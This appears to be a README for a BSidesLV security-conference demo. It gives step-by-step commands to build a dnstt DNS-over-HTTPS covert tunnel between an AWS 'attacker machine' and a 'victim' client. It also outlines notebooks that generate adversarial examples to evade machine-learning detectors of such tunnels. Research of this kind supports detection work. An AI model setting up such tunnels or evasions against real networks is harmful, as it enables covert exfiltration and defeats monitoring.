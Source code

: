 # BsidesLV - Demo

## Demo1 - DoH tunnel Basics - 101
In this demo, we will show how to create a DoH tunnel using dnstt on AWS and how to use it to tunnel DNS traffic over HTTPS.

Pre-requisites:
- An AWS account
- An Elastic IP (AWS)
- DNS domain configured in Route 53 (AWS)

### DNS Setup
Go into the AWS Route53 service console and add two records:

A	tns.yourdomain.com	points to	34.239.223.23 (Elastic IP)
NS	t.yourdomain.com	is managed by	tns.yourdomain.com

tns.yourdomain.com points to the addresses of your tunnel server. It is marked as being the nameserver for everything in the t.yourdomain.com DNS zone. 
When a recursive resolver receives a query for subdomain.t.yourdomain.com, it will forward the query to the tunnel server—that is how the client tunnels data to the server.

The "tns" and "t" labels can be anything you want, but the "tns" label should not be a subdomain of the "t" label (everything under that subdomain is reserved for tunnel payloads). 
The "t" label should be short, because there is limited space available in a DNS message, and the domain name takes up part of it.

Here is an example of screen capture of the Route 53 configuration:

![Route53](../img/r53.png)

### Steps
1. Create an EC2 instance (attacker machine) on AWS and attach a elastic IP on it.
2. Make sure the security group allows both TCP and UDP traffic on port 53
3. Install dnstt-server on the EC2 instance
- Clone the dnstt repository: https://github.com/Mygod/dnstt and compile the dnstt-server
- Generate a key pair for the DoH tunnel

```shell
./dnstt-server -gen-key -privkey-file server.key -pubkey-file server.pub
```

4. Create a DoH tunnel (server side)

```shell
./dnstt-server -udp :5300 -privkey-file server.key t.mydomain.com 127.0.0.1:8000
```

5. Create a backend "application" to receive the tunneled traffic on server side

```shell
ncat -l -k -v 127.0.0.1 8000
```

6. Configure the client (victim/local machine) to use the DoH tunnel
- Copy the public key `server.pub` to the client machine

Note: 1.1.1.1 is the Cloudflare DNS resolver. You can use any DoH resolver you want.

```shell
./dnstt-client -doh https://1.1.1.1/dns-query -pubkey-file server.pub t.mydomain.com 127.0.0.1:7000
```

7. Create a backend "application" to receive the tunneled traffic on client side

```shell
ncat -v 127.0.0.1 7000
````

8. Test the DoH tunnel
9. Analyze the traffic
10. Cleanup

## Demo 2 - Attacking DoH Tunnel Detection models

### Zoo Attack (Vanilla Attack)
1. Normalize data: [normalize-data.ipynb](./bsides-experiments/normalize-data.ipynb)
2. Train a model: [build_model.ipynb](./bsides-experiments/build_model.ipynb)
3. Generate adversarial examples (attack): [ZooDoH_Attack_GB.ipynb](./bsides-experiments/ZooDoH_Attack_GB.ipynb)

### Zoo Target Attack 
1. Normalize data: [normalize-data.ipynb](./bsides-experiments/normalize-data.ipynb)
2. Train a model: [build_model.ipynb](./bsides-experiments/build_model.ipynb)
3. Get DoH tunnel tools feature limits: [get-doh-tunnel-tool-limits.ipynb](./bsides-experiments/get-doh-tunnel-tool-limits.ipynb)
4. Increase/decrease the feature limits according to your needs: Edit the file `dnstt-limits-prod.csv`
5. Choose features to attack: Edit the array `features_to_attack` on notebook `Target_ZooDoH_Attack_GB.ipynb`
6. Generate adversarial examples (attack): [Target_ZooDoH_Attack_GB.ipynb](./bsides-experiments/Target_ZooDoH_Attack_GB.ipynb)

## Demo 3 - Real world Black Box Attacking (real-world scenario)




## Feature extractor 

```shell
# meter module from dohlyzer
 python dohlyzer.py -n eno1 -c  ./output.csv

```

Note: Verify flow_session.py to change to NRT csv generation.

- Run the command line
```shell
 ./dohlyzer.py -m ../../../sbseg-experiments/models/ -s o

```

